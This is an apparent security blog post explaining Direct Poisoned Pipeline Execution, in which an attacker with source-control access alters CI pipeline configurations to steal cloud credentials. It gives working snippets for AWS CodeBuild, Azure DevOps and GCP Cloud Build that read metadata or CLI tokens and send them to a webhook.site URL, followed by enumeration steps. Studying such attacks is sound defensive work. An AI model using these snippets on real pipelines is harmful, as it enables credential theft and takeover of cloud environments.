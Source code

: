 ```yaml
---
title: "Credential Theft via Direct Poisoned Pipeline Execution (Direct-PPE) Attacks on AWS, Azure, and GCP"
date: 2025-09-26T20:45:04+00:00
tags: ["Azure","AWS","GCP","DevOps","DevSecOps","pipeline","Poisoned Pipeline Execution","Direct-PPE"]
description: "In this short blog post, I’ll show how an attacker with existing access to a source code management (SCM) system can abuse malicious pipeline configurations to steal cloud tokens and escalate access across AWS, Azure, or GCP environments."
cover:
    image: "posts/directppe/img/cover.png"
    alt: "Direct-PPE"
    relative: false
    hidden: false
    responsiveImages: true
---
```

# Credential Theft via Direct Poisoned Pipeline Execution (Direct-PPE) Attacks on AWS, Azure, and GCP
In this short blog post, I’ll show how an attacker with existing access to a source code management (SCM) system can abuse malicious pipeline configurations to steal cloud tokens and escalate access across AWS, Azure, or GCP environments.

## Direct-PPE
First, let’s clarify what Direct Poisoned Pipeline Execution (Direct-PPE) means and outline the breach scenario we’ll use to demonstrate how attackers can leverage it to further compromise cloud environments like AWS, Azure, and GCP.

Poisoned Pipeline Execution (PPE) risks refer to the ability of an attacker with access to source control systems - and without access to the build environment, to manipulate the build process by injecting malicious code/commands into the build pipeline configuration, essentially ‘poisoning’ the pipeline and running malicious code as part of the build process.

We have three types of PPE
- Direct PPE (D-PPE) : This occurs when an attacker gains direct access to the pipeline configuration. For example, they might obtain a personal access token (PAT), valid user credentials, or even a session cookie for the SCM platform, giving them the ability to modify and execute malicious changes in the pipeline configuration.
- Indirect PPE (I-PPE): This means the attacker doesn’t have direct access to the pipeline configuration files but can still compromise the pipeline by injecting malicious code into files referenced by the configuration. Examples include Makefiles, test code, scripts, or automation tools that the pipeline relies on during execution.
- Public-PPE (3PE): This is often the most dangerous scenario. If the CI pipeline of a public repository automatically runs unreviewed code submitted by anonymous contributors, it becomes vulnerable to a Public PPE (3PE) attack. This can lead to exposure of internal assets—such as secrets from private projects—especially when the public repository’s pipeline shares the same CI instance or infrastructure as private repositories.

In the next section, we’ll assume the breach has already occurred, the attacker has access to the SCM, access by having an authentication method to the organization’s source code management. It may be a personal access token (PAT), an SSH key, or any other allowed authentication credential. An example of a method an attacker can use to achieve this technique is using a phishing attack against an organization. We’ll explore how they can escalate privileges further to gain access to cloud environments.

## AWS
![image](/img/aws_killchain.png)

Because we have access to the code repository, we can use the Direct PPE attack vector to enumerate the permissions under which the pipeline is running. This can be done by querying the Instance Metadata Service (IMDS) available in the cloud environment.
In the example pipeline, I’m using webhook.site to exfiltrate captured data.

```yaml
version: 0.2

phases:
  pre_build:
    commands:
      - curl 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type:application/json' --data "$(curl http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI)"
```
You can manually retrieve the temporary role credentials from inside a container by appending the environment variable to the IP address of the Amazon ECS container agent and running the curl command on the resulting string.
```
curl 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI
```
This token and the role credentials are added to the agent's internal cache. The agent populates the environment variable AWS_CONTAINER_CREDENTIALS_RELATIVE_URI in the container with the URI of the credential ID (for example, /v2/credentials/12345678-90ab-cdef-1234-567890abcdef).

![image](/img/aws_webhook.png)

The exfiltrated token can then be stored in environment variables and used with the AWS CLI to interact with the compromised cloud environment.

![image](/img/awscli1.png)

After gaining initial access, you can begin enumerating the AWS environment to identify pivot points and locate weak spots that can be exploited for further privilege escalation or lateral movement.

![image](/img/awscli2.png)

![image](/img/awscli3.png)


## Azure
![image](/img/azure_killchain.png)

We can easily exfiltrate the Azure DevOps agent access token, enumerate Azure DevOps projects, and search for additional secrets or clues to further escalate our privileges.
If the pipeline configuration contains a service connection, as shown in the upcoming example, we can directly exfiltrate that service connection and pivot into Azure environments in a straightforward way.

```yaml
- task: AzureCLI@2
  inputs:
    azureSubscription: $(azureSubscription)
    scriptType: bash
    scriptLocation: inlineScript
    inlineScript: |
      # Export Azure access token
      ACCESS_TOKEN=$(az account get-access-token --query accessToken -o tsv)
      SUB_ID=$(az account show --query id -o tsv)
      curl 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type: text/plain' --data "ACCESS_TOKEN=$ACCESS_TOKEN SUB_ID=$SUB_ID"
```

![image](/img/azure_webhook.png)

Decode the JWT using JWT.io and under decoded payload section, note the value of field titled tid which will be the Account Id/Tenant ID.
- Tenant ID will also appear in other values as well.
- Additionally, subscription ID, resource group , and resource name will be present too.

![image](/img/azurecli.png)

Install Azure PowerShell module with the below command
```
Install-Module -Name Az -Repository PSGallery -Force
```

Run below PowerShell commands to authenticate with the
Azure Cloud using the exfiltrated Identity Token and the
Account ID (from decoding the JWT)

![image](/img/azurecli.png)

We have successfully established a connection to Azure, allowing us to continue with the post-exploitation process and expand our access within the environment!

## GCP
![image](/img/gcp_attackchain.png)

Just like AWS and Azure, GCP also provides a metadata service. We can leverage it in the same way to retrieve and exfiltrate access tokens for further use in the attack chain.

Create a Shell script file named malicious.sh in the root
directory of the source code. Using this file we’ll exfiltrate the
default service account token to the webhook dashboard.
```bash
#!/bin/sh
apt update && apt install curl -y
token=$(curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google")
echo $token > token.txt
curl -X POST 'https://webhook.site/1ec8cf1f-cfb6-4c43-a743-7368135c8bca' -sH 'content-type:application/json' --data '@token.txt'
```
Create a new build stage in cloudbuild.yaml file with the below
configurations.
```
- name: 'ubuntu'
args: ['bash', './malicious.sh']
```
![image](/img/gcp_webhook.png)

Use below command to inspect the details of an OAuth 2.0
access token issued by Google's IAM services.
```
curl https://oauth2.googleapis.com/tokeninfo?access_token=<EXFILTRATED_TOKEN>
```
![image](/img/gcpcli1.png)

Then we can enumerate the GCP project metadata with the
below command. It will give us the Project ID & other information.

![image](/img/gcpcli2.png)

We have successfully established a connection to GCP, allowing us to continue with the post-exploitation process and expand our access within the environment!

# Summary
This post explains how attackers can abuse Direct Poisoned Pipeline Execution (Direct-PPE) to steal credentials and escalate privileges in AWS, Azure, and GCP environments. Direct-PPE occurs when an attacker gains access to a source code management (SCM) system (e.g., via stolen credentials or a PAT) and modifies the pipeline configuration to run malicious commands.
Overall, the post highlights how attackers can pivot from SCM access to full cloud environment compromise using poisoned pipeline techniques.





